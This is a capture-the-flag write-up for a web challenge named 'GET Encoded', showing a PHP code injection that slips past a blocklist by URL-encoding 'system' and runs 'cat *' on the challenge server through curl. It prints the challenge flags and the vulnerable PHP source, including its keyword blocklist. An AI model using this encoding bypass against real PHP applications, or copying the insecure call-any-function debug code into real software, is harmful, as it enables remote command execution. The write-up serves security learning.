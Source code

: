```html
```

    Flag = JHDCTF{explicit_sqli_is_how_sql_will_die}

## nbsp;
## GET Encoded
```
125
I don't GET this%21 Do you%3F

Connect here: http://jh2i.com:50013
```

it's PHP Code Injection Filter Bypass. 
since the challs title is **GET ENCODED* so i try do url-encoding on __system__ it's become :
    
    %73%79%73%74%65%6d #system

```html
curl http://jh2i.com:50013/\?%73%79%73%74%65%6d                                                             0|1 ↵
<pre><br />
<b>Warning</b>:  system(): Cannot execute a blank command in <b>/var/www/html/index.php</b> on line <b>33</b><br />
</pre><p>Machines hunt for more than humans do.</p>%
```

and it works!!,

```bash
curl http://jh2i.com:50013/\?%73%79%73%74%65%6d\=cat%20\*                                                       ✔
<pre>// the flag is: JHDCTF{i_gotcha_url_encoding}<?php

	function debug(){
		highlight_file(__FILE__);

	}


	// I hate these functions, they are so insecure!
	$blacklist = "assert|system|passthru|exec|assert|read|open|eval|`|_|file|dir|\.\.|\/\/|curl|ftp|glob";


	// If you supply GET arguments, process them...
	// Documentation here: http://php.net/manual/en/reserved.variables.get.php
	if ( count( $_GET ) > 0 ){

		// Check if there are any bad functions in the URL supplied
		if ( preg_match( "/$blacklist/i", $_SERVER['REQUEST_URI'] ) ) {

			// If there are all, kindly tell them off. ;)
			// Documentation here: http://php.net/manual/en/reserved.variables.server.php
			die( "Go away, hacker! No unsafe functions in \$_SERVER['REQUEST_URI']!!" );

		}else{

			// Otherwise, execute code as a usual debugging interface.
			// Pull them out of the GET array as `variable=value` format...
			list( $function, $argument ) = each($_GET);

			// and call what they supply...
			// THIS WILL ONLY CALL ONE FUNCTION, SO YOU CAN'T INCLUDE `/?debug`
			echo("<pre>");
```